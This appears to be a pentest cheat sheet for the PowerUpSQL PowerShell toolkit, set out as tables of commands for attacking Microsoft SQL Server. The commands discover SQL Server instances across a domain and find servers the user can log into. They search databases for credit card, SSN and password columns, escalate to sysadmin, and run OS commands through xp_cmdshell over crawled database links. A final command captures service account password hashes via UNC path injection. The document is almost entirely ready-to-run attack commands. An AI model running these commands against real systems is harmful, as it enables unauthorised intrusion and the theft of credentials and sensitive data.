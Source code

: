 Below is a list of some of the most common PowerUpSQL functions used during pentests.

## SQL Server Discovery Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Discover Local SQL Server Instances |`Get-SQLInstanceLocal -Verbose`
|Discover Remote SQL Server Instances | `Get-SQLInstanceScanUDPThreaded -Verbose -ComputerName SQLServer1` <br>`Get-SQLInstanceFile -FilePath c:\temp\computers.txt | Get-SQLInstanceScanUDPThreaded -Verbose`
|Discover domain SQL Server Instances | `Get-SQLInstanceDomain -Verbose`
|Discover domain accounts used to run multiple SQL Servers | `Get-SQLInstanceDomain -Verbose | Where-Object {$_.DomainAccount -notlike "*$"} | Group-Object DomainAccount | Select Count, Name | Sort-Object Name -Descending`
|List SQL Servers using a specific domain account| `Get-SQLInstanceDomain -Verbose -DomainAccount SQLSvc`
|Get a list of domain SQL servers that can be logged into|`$Targets = Get-SQLInstanceDomain -Verbose | Get-SQLConnectionTestThreaded -Verbose -Threads 10 | Where-Object {$_.Status -like "Accessible"}`<br>`$Targets`

## Data Targeting Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Execute arbitrary query|`$Targets | Get-SQLQuery -Verbose Query "Select @@version"`
|Grab basic server information | `$Targets | Get-SQLServerInfoThreaded -Threads 10 -Verbose`
|Grab list of non-default databases | `$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults`
|Dump common information from server to files|`Invoke-SQLDumpInfo -Verbose -Instance SQLSERVER1\Instance1 -csv`
|Find sensitive data based on column name |`$Targets |  Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword "credit,ssn,password" –SampleSize 2 –ValidateCC –NoDefaults`
|Find sensitive data based on column name, but only target databases with transparent encryption|`$Targets | Get-SQLDatabaseThreaded –Verbose –Threads 10 -NoDefaults | Where-Object {$_.is_encrypted –eq “TRUE”} | Get-SQLColumnSampleDataThreaded –Verbose –Threads 10 –Keyword “card, password” –SampleSize 2 –ValidateCC -NoDefaults`

## Privilege Escalation Cheats
|Description|Command|
|:--------------------------------|:-----------|
|Audit for Issues| `Invoke-SQLAudit -Verbose -Instance SQLServer1`
|Escalate to sysadmin | `Invoke-SQLEscalatePriv -Verbose -Instance SQLServer1`
|Execute OS commands | `$Targets | Invoke-SQLOSCmd -Verbose -Command "Whoami" -Threads 10`
|Crawl database links|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1`<br>`Get-SqlCrawl -Verbose -Instance SQLSERVER1\Instance1` 
|Crawl database links and execute query|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "select name from master..sysdatabases"`
|Crawl database links and execute OS command|`Import-Module C:\PowerUpSQL-master\scripts\Get-SqlServerLinkCrawl.ps1` <br> `Get-SQLCrawl -instance "SQLSERVER1\Instance1" -Query "exec master..xp_cmdshell 'whoami'"`
|UNC path injection |`Import-Module C:\PowerUpSQL-master\PowerUpSQL.psd1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\Pending\Get-SQLServiceAccountPwHashes.ps1` <br> `Import-Module C:\PowerUpSQL-master\Scripts\3rdparty\Inveigh.ps1` <br> `Get-SQLServiceAccountPwHashes -Verbose -TimeOut 2 -CaptureIp 10.1.1.1`

